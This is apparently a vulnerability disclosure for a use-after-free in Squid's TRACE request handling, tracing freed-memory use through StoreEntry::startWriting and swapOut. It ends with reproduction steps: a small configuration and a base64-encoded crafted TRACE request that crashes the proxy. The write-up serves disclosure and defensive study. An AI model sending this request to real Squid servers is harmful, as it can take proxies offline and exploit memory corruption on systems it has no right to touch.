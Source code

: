 # Use-After-Free in TRACE Requests
Just like GET, POST, HEAD, and others, RFC 7231 (HTTP/1.1) defines the TRACE method as an HTTP request method (verb) which is used for diagnosing HTTP requests. When the final destination server (rather than, say, an intermediate proxy server) receives a TRACE request, it should print out exactly the request it received.

The HTTP request header `max-forwards` is also used with TRACE requests, and it defines how many intermediate servers may be used before the response is sent back. A value of 0 means that the first server must send back a response. For requests which use a `max-forwards` value greater than 0, each intermediate server (should) de-increment the header by 1.

Squid is able to act as both an intermediate (`max-forwards > 0`) and origin server (`max-forwards = 0`) when it comes to TRACE requests.

## The Issue
When Squid acts as an origin server responding to a TRACE request (i.e. `max-forwards = 0`), the response is handled in the function ``clientReplyContext::traceReply``. Effectively, this function creates a copy of the request as it received it, and creates a reply with that request. This reply is then passed to ``StoreEntry::replaceHttpReply``, which also passed the reply to ``StoreEntry::startWriting``, to update the local storage with the reply.
However, ``StoreEntry::startWriting`` calls the function ``StoreEntry::flush``, which may free this entry and its associated memory in the case of some error occurring, such as the reply being too large due to, say, the configuration `reply_body_max_size`. The reply contains a url-encoded version of the URI requested, and as such, it is quite easy to reach an even high `reply_body_max_size` limit to cause the memory to be freed.

In ``StoreEntry::startWriting``:
```
void
StoreEntry::startWriting()
{
  …
  flush(); <--- may free 'this'.
  if (hittingRequiresCollapsing()) { <-- UaF
    setCollapsingRequirement(false); <-- UaF
    Store::Root().transientsClearCollapsingRequirement(*this); <-- UaF
  }
}
```

If "nothing goes wrong" so-to-speak during the three lines of code highlighted, Squid will return all the way back to ``traceReply``, where the freed store entry will be passed to ``swapOut``: ``http->request->swapOut(http->storeEntry());``
From here, another use-after-free happens: ``EBIT_SET(flags, DELAY_SENDING);`` before finally, an assertion is likely to happen: ``assertion failed: store.cc:832: "store_status == STORE_PENDING"``.

In order to reproduce this issue, set in your Squid configuration:
```
max-forwards = 0
reply_body_max_size 1 KB
```

and send a request to Squid using the base64-encoded request:
```
dFJhY2UgaHR0cDovLzAwMDAwMDAwMIwwMDAwMDAwMFMgMDAwMD+srLmsMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDCsrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKyyrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrDAwMKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysmKysrKysrKysrKys
rKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKysrKys
rKysrKysrKysrKysrKwwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAgSFRUUC8xLjAN
Ckhvc3Q6ClVzZXItQWdlbnQ6Cm1heC1mb3J3YXJkczowCgpACg==
```
